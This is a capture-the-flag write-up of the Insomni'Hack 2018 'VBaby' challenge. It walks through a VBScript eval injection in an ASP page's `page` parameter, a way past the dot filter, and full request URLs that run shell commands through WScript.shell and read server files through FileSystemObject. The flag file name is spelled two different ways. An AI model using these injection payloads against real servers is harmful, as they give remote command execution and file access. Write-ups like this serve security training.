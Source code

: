 ```yaml
---
title: Insomni'Hack 2018 - VBaby
layout: writeup
date: 2018-03-25 21:00:00 +0100
authors: qlemaire
---
```

Solves: 22 / Points: 137

## Challenge description
> The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `Eval(Request("cmd"))` and putting the payload within `cmd` parameter. Indeed, only the `page` parameter content is filtered.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we enumerate files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder]({{ site.url }}/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag]({{ site.url }}/assets/reading-flag.png)